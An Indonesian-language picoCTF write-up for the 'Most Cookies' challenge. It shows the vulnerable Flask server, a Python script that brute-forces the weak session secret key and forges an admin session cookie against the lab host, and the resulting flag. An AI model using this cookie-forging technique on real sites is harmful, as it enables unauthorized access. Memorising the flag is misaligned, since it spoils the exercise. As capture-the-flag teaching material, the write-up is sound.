 # Most Cookies
- Link: https://play.picoctf.org/practice/challenge/177?category=1&page=2

## Tantangan
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/99a50920a248ec37c39b8e3ab0af8789/server.py) http://mercury.picoctf.net:18835/

## Penyelesaian
- Download file `server.py` yang dilampirkan di soal tantangan
```sh
wget https://mercury.picoctf.net/static/99a50920a248ec37c39b8e3ab0af8789/server.py
```

- Isi dari file `server.py` adalah sebagai berikut
```sh
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```
- Flask Cookie dilindungi dengan secret key. Dari source code diatas terlihat bahwa secret key dipilih secara acak dari array `cookie_names` sehingga kita perlu melakukan brute force untuk menemukan secret key yang bisa dipakai untuk decode kemudian kita mengencode cookie `{'very_auth': 'admin'}` dengan secret key yang ditemukan lalu mengirimkan kembali ke web
- Cara ini selanjutnya kita tulis menjadi program python. Copy source code dibawah ini lalu simpan dengan nama `most_cookies.py`
```sh
import requests
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer
from bs4 import BeautifulSoup

def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.loads(cookie_str)

def encode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.dumps(cookie_str)

#Mengambil cookie
s = requests.Session()
r = s.get("http://mercury.picoctf.net:18835/")
cookie = s.cookies["session"]
print('Cookie : ',cookie)

#wordlists secret key
wordlists = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

for secret_key in wordlists:
    try:
    	#decoce cookie
        decode_cookie = decode_flask_cookie(secret_key, cookie)
        print('Secret key : ',secret_key)
        print('Decode cookie : ',decode_cookie)
        
        #encode cookie baru dengan secret key yang ditemukan
        session = {'very_auth': 'admin'}
        encode_cookie = encode_flask_cookie(secret_key, session)
        print('Encode cookie : ',encode_cookie)
        
        #kirim cookie ke web
        r = requests.get("http://mercury.picoctf.net:18835/", cookies = {"session": encode_cookie})
        
        #mengambil flag dari web
        soup = BeautifulSoup(r.text, "html.parser")
        flag = soup.select("body > div.container > div.jumbotron > p:nth-child(2)")[0]
        print(flag.get_text())
       	
        break
    except:
        continue

```
- Selanjutnya eksekusi program tersebut diterminal
```sh
python3 most_cookies.py
```


- Flag
```sh
picoCTF{pwn_4ll_th3_cook1E5_743c20eb}
```